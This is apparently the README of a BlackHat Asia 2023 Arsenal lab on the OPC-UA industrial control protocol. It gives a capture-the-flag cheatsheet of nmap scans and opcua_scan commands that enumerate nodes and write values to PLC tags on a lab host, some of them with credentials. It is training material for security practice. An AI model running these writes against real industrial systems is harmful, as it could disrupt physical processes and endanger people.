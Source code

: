 # BlackHat Arsenal Singapore 2023: OPC-U-HACK
Slides &amp; content for our [Arsenal lab session](https://www.blackhat.com/asia-23/arsenal/schedule/index.html#industrial-control-systems-capture-the-train-31924)
 at BlackHat Asia 2023

This arsenal lab session aims at introducing the OPC-UA protocol, a modern protocol for Industrial Control Systems.
A demo setup will be provided and our tool [opcua-scan](https://github.com/wavestone-cdt/opcua-scan) will be used.

# Cheatsheet

Find below a few of commands that should help you flag!

### RECON#01
Scan the machine: ```nmap -p- 192.168.0.20```

Look for OPC-UA services: ```./opcua_scan.py hello -i 192.168.0.20 -p '49320, 49321, 49664, 49665, 49666, 49667, 49670, 49679, 49681'```

### RECON#02 & RECON#03
Use of the IP because there is no working DNS
```./opcua_scan.py server_config -t 'opc.tcp://192.168.0.20:49321'```

### RECON#04
List nodes that you can write to
```./opcua_scan.py server_config -t 'opc.tcp://192.168.0.20:49320' -nw```

List all the nodes
```./opcua_scan.py read_data -t 'opc.tcp://192.168.0.20:49320'```

```./opcua_scan.py read_data -t 'opc.tcp://192.168.0.20:49320' -r 'i=85'```

```./opcua_scan.py read_data -t 'opc.tcp://192.168.0.20:49320' -r 'ns=2;s=ModbusPLC-10-3-0-150'```

…

…

### RECON#05
```./opcua_scan.py read_data -t 'opc.tcp://192.168.0.20:49320'```

```./opcua_scan.py read_data -t 'opc.tcp://192.168.0.20:49320' -r 'i=85'```*

…

…

### READ_DATA#01
```./opcua_scan.py read_data -t 'opc.tcp://192.168.0.20:49320' -r 'ns=2;s=ModbusPLC-10-3-0-150.Device2.XXX'```

### READ_DATA#02
```./opcua_scan.py read_data -t 'opc.tcp://192.168.0.20:49320' -r 'ns=2;s=ModbusPLC-10-3-0-150.Device2.XXX'```

### WRITE_DATA#01
```./opcua_scan.py write_data -t 'opc.tcp://192.168.0.20:49320' -r 'ns=2;s=ModbusPLC-10-3-0-150.Device2.part_1_up' -d True```

### WRITE_DATA#02
This one is a little bit more complex! Several steps are involved, one of which is exploiting dynamic tags

```./opcua_scan.py write_data -t 'opc.tcp://192.168.0.20:49320' -r 'ns=2;s=ModbusPLC-10-3-0-150.Device2.XXXX' -a Username -u XXX -p XXX -d True```


